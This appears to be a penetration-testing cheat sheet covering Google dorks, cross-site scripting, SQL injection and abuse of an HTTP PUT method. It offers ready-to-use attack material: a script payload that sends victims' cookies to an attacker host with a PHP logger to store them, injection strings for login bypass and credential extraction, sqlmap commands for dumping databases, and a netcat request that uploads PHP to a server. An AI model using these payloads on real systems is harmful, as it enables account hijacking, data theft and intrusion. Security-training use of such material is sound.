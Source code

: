 #### Google Dorks
  - `site:` Include only results on a given hostname
  - `intitle:` Filters according to the title of a page
  - `inurl:` Similar to intitle but works on the URL of a resource
  - `filetype:` Filters by using the file extension of a resource
  - `AND`, `OR`, `|` Use logical operators to combine your expressions
  - `-` Filter out a keyword or a command's result

Example: `-inurl:(htm|html|php|asp|jsp) intitle:"index of" "last modified" "parent directory" txt OR doc OR pdf`  
See also the [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

#### XSS
Payload: `<script>var i = new Image(); i.src = "http://attacker.site/log.php?q+"+document.cookie;</script>`  
Server:
```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

#### SQLi
Payloads:
  - `' OR 'a'='a`
  - `' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a`
  - `' OR substr(user(),1,1) = 'a`
  - `' UNION SELECT user(); -- -`

Sqlmap:
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --cookie "PHPSESSID=m42ba4etbktcktvjadirnsqqg4;`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --banner`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' -v3 --fresh-queries`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --users`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --dbs`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --tables`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' -D <db-name> -T <table-name>`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <db-name> --columns`
  - `sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <db-name> --dump`
  - `sqlmap -u 'http://victim.site/login.php' --data='user=a&pass=a' -p user --technique=B --banner`
  - `sqlmap -r post-vuln-sqli.txt -p user --technique=B --banner`

Tip: Dump only the data you're interested in, not the whole database. Dumping a lot of data using SQLi is very noisy and a heavy process.

#### Misconfigured PUT method
```bash
wc -m payload.php
20 payload.php
```
```bash
nc victim.site 80
PUT /payload.php HTTP/1.1
Host: victim.site
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```
